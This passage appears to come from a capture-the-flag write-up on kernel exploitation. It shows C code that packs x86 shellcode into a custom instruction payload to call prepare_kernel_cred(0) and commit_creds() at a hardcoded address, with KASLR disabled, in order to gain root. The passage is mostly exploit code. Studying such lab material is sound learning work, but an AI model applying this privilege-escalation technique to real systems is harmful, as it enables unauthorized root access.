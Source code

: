 ```c
	i += sprintf(&payload[i], "jmp %u\n", 12*6+10*5+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d55c18948LL);
	
	// For ending instruction
	i += sprintf(&payload[i], "jmp %u", 0);
}
```

You can debug the code to know how payload work. Remember that we have add `-s` to file `launch.sh` so if we execute `target remote localhost:1234`, we can debug the kernel.

### Stage 3: Execute commit_creds()

Again, just find the address of function commit_creds() because `KASLR` is disable and the address is remain the same:

![get-addr-commit-creds.png](images/get-addr-commit-creds.png)

The address is `0xffffffff810848f0`. Let's write our shellcode now:

```c
char payload[0x1000];
void generate_payload()
{
	unsigned int *p = (unsigned int *)payload;
	unsigned int i = 0;

	/////////////////////////////////////////////////////
	////// Stage 2: Execute prepare_kernel_cred(0) //////
	/////////////////////////////////////////////////////

	...

	/////////////////////////////////////////////
	////// Stage 3: Execute commit_creds() //////
	/////////////////////////////////////////////
	// mov eax, 0xffffffff
	i += sprintf(&payload[i], "jmp %u\n", 12*7+10*6+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55ffffffffb8LL);

	// shl rax, 32
	i += sprintf(&payload[i], "jmp %u\n", 12*8+10*7+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d20e0c148LL);

	// mov edx, 0x810848f0
	i += sprintf(&payload[i], "jmp %u\n", 12*9+10*8+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55810848f0baLL);

	// or rax, rdx
	i += sprintf(&payload[i], "jmp %u\n", 12*10+10*9+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d55d00948LL);

	// mov rdi, rcx ; call rax
	i += sprintf(&payload[i], "jmp %u\n", 12*11+10*10+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d55d0ffcf8948LL);

	i += sprintf(&payload[i], "jmp %u", 0);
}
```